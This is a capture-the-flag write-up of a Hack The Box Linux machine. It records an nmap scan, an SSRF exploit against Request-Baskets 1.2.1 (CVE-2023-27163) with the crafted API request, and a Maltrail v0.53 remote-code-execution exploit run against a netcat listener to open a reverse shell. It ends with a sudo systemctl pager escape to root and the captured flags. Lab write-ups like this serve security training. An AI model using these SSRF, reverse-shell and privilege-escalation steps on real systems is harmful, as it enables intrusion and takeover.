





30 points
Linux
10.10.11.224
Discovery
nmap
sudo nmap -A -sV -sT -v -O -T4 -p0- 10.10.11.224
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_ 256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp filtered http
8338/tcp filtered unknown
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.0 400 Bad Request
| Content-Type: text/plain; charset=utf-8
| X-Content-Type-Options: nosniff
| Date: Fri, 29 Sep 2023 20:09:25 GMT
| Content-Length: 75
| invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
| GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
| HTTP/1.1 400 Bad Request
| Content-Type: text/plain; charset=utf-8
| Connection: close
| Request
| GetRequest:
| HTTP/1.0 302 Found
| Content-Type: text/html; charset=utf-8
| Location: /web
| Date: Fri, 29 Sep 2023 20:08:59 GMT
| Content-Length: 27
| href="/web">Found</a>.
| HTTPOptions:
| HTTP/1.0 200 OK
| Allow: GET, OPTIONS
| Date: Fri, 29 Sep 2023 20:08:59 GMT
|_ Content-Length: 0
55555/tcp open unknown
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelwebapp (Request-Baskets)

Version: 1.2.1
GET /web HTTP/1.1
Host: 10.10.11.224:55555Powered by <a href="https://github.com/darklynx/request-baskets">request-baskets</a> |
Version: 1.2.1→ has a known vulnerability
Request-Baskets SSRF
https://github.com/entr0pie/CVE-2023-27163
Method 1:
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163
> Creating the "hravlo" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/hravlo now makes the server request to http://127.0.0.1:80/.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"-GVr0J1PZdfeEtzL1pxOT00W3t_RFTGbUvuikEHHGVhq"}→ Visit: http://10.10.11.224:55555/hravlMethod 2:
Use the GUI to forward to the filtered port :80

Request in burp
PUT /api/baskets/picuk91 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: 4QrCpAP4TwNuEE5OzSf4J0y8EvgvTDtMr4gg93eoEa78
X-Requested-With: XMLHttpRequest
Content-Length: 114
Origin: http://10.10.11.224:55555
Connection: close
Referer: http://10.10.11.224:55555/web/picuk91
{"forward_url":"http://127.0.0.1:80/","proxy_response":true,"insecure_tls":true,"expand_path":true,"capacity":200}Now when visiting http://10.10.11.224:55555/hravlo we get the following page, the application running on port :80

- Maltrail (v0.53)
Maltrail RCE
Maltrail v0.53 - Unauthenticated Remote Code Execution (RCE) - webapps exploit for Python platform
- Start listener
nc -lvp 8000 - run exploit
python3 rce.py 10.10.16.6 8000 http://10.10.11.224:55555/picuk9Running exploit on http://10.10.11.224:55555/picuk91/login - Reverse shell established

Found flag in /home/puma/user.txt → 4bdbd41dd184235e609298696547cf5f
Priv escalation
linpeas:
OS
Linux version 5.4.0-153-generic (buildd@bos03-amd64-008) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023
Distributor ID: Ubuntu
Description: Ubuntu 20.04.6 LTS
Release: 20.04
Codename: focalsudo
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.exploit suggestions
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-2586] nft_object UAF
Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
Exposure: probable
Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
[+] [CVE-2021-4034] PwnKit
Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
Exposure: probable
Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
[+] [CVE-2021-3156] sudo Baron Samedit
Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
Exposure: probable
Tags: mint=19,[ ubuntu=18|20 ], debian=10
Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
[+] [CVE-2021-3156] sudo Baron Samedit 2
Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
Exposure: probable
Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
Exposure: probable
Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
Comments: ip_tables kernel module must be loaded
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
Exposure: less probable
Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE
Details: https://seclists.org/oss-sec/2017/q1/184
Exposure: less probable
Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154Check sudo apps:
sudo -l
Matching Defaults entries for puma on sau:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User puma may run the following commands on sau:
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.servicesystemctl | GTFOBins - If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
sudo systemctl status trail.service
!sh
Root flag → 766dd11421587c97dba61df02e0f4417